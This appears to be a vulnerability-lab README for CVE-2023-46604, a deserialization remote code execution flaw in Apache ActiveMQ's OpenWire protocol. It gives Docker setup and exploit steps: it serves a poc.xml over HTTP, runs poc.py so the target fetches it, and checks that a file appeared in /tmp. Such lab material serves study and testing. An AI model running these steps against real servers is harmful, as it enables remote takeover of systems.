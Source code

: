 # Apache ActiveMQ OpenWire Protocol Deserialization RCE (CVE-2023-46604)

[中文版本(Chinese version)](README.zh-cn.md)

Apache ActiveMQ is an open source messaging middleware developed by the American Pachitea (Apache) Software Foundation that supports Java messaging services, clustering, Spring framework, and more.

OpenWire protocol is designed by ActiveMQ, to allow native access to ActiveMQ from a number of different languages and platforms. Apache ActiveMQ prior to 5.18.2 was affected by a deserialization vulnerability. This vulnerability may allow remote attackers with network access privileges to execute arbitrary shell commands by manipulating the serialized class types in the OpenWire protocol, leading to the instantiation of any class on the classpath of the agent.

References:

- <https://activemq.apache.org/news/cve-2023-46604>
- <https://xz.aliyun.com/t/12929>
- <https://boogipop.com/2023/11/03/Apache%20ActiveMQ%20CVE-2023-46604%20RCE%20%E5%88%86%E6%9E%90/>
- <https://forum.butian.net/share/2566>

## Environment setup

ActiveMQ listens to following 2 ports:

| Default port | Default Condition                    |
|--------------|--------------------------------------|
| 8161 (web)   | Remote access requires configuration |
| 61616 (tcp)  | Remote access allowed                |

The deserialization issue exists in the port 61616.

Enter following commands to run a ActiveMQ 5.17.3 server:

```
docker compose up -d
```

Please access `http://your-ip:8161` to confirm that the service has started successfully before exploitation, although we only need to use the port 61616 after that.

## Exploit

You can quickly start an HTTP server in the folder where the [poc.xml](poc.xml) file is located using the Python3 http.server module:

```shell
python3 -m http.server 6666
```

Then execute the [poc.py](poc.py):

```shell
python3 poc.py target port http://ip of http server/poc.xml
```

You can check inside the ActiveMQ container using the following command:

```
docker exec cve-2023-46604-activemq-1 ls -l /tmp
```

If you see the output showing that touch /tmp/activeMQ-RCE-success has been executed successfully, then the exploit has worked.

![01.png](01.png)
